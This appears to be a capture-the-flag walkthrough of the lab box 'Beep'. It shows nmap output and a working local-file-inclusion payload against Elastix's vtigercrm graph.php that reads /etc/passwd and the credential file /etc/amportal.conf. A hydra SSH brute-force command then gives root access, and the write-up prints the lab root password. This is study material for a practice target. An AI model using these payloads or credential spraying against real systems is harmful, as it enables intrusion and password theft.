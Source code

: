 ![](images/boxInfo.png)

nmap -sC -sV 10.10.10.7
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-14 19:54 EST
Nmap scan report for 10.10.10.7
Host is up (0.67s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: EXPIRE(NEVER) PIPELINING STLS IMPLEMENTATION(Cyrus POP3 server v2) LOGIN-DELAY(0) TOP RESP-CODES USER APOP UIDL AUTH-RESP-CODE
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: STARTTLS IMAP4rev1 NAMESPACE SORT=MODSEQ ID CATENATE OK THREAD=ORDEREDSUBJECT ACL URLAUTHA0001 X-NETSCAPE IMAP4 UIDPLUS RIGHTS=kxte MULTIAPPEND IDLE RENAME CONDSTORE Completed UNSELECT ANNOTATEMORE THREAD=REFERENCES SORT CHILDREN MAILBOX-REFERRALS LIST-SUBSCRIBED BINARY LISTEXT NO ATOMIC QUOTA LITERAL+
443/tcp   open  ssl/https?
|_ssl-date: 2020-02-15T01:59:56+00:00; +1h01m32s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: 1h01m31s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 377.41 seconds
```

visiting 10.10.10.7 redirects us to https version which is an elastix login page  
searching for elastix exploit gave us the first link of Local File Inclusion  
https://www.exploit-db.com/exploits/37637  
we can also use "searchsploit -x 37637" to go through the exploit  
in the comment of the exploit we can see the URL for LFI
```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
```

![](images/etcPasswd.png)

from /etc/passwd we know user fanis exists so I tried to access /home/fanis/user.txt by replacing it with /etc/passwd in the above payload  
and we got user.txt

![](images/user.txt.png)

if we use the original payload given in the exploit file we get /etc/amportal.conf file which contains many passwords 
```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

![](images/amportalConf.png)

the passwords in this config file can be the SSH password for some user  
so we can put all the users from /etc/passwd in allUsers.txt and all the passwords from /etc/amportal.conf in allPasswords.txt  
now we can use hydra to test SSH login using allUsers.txt and allPasswords.txt  
```
hydra -L allUsers.txt -P allPasswords.txt ssh://10.10.10.7
```

![](images/hydra.png)

we can now SSH as root using password --> "jEhdIekWmdjE"

![](images/rootShell.png)
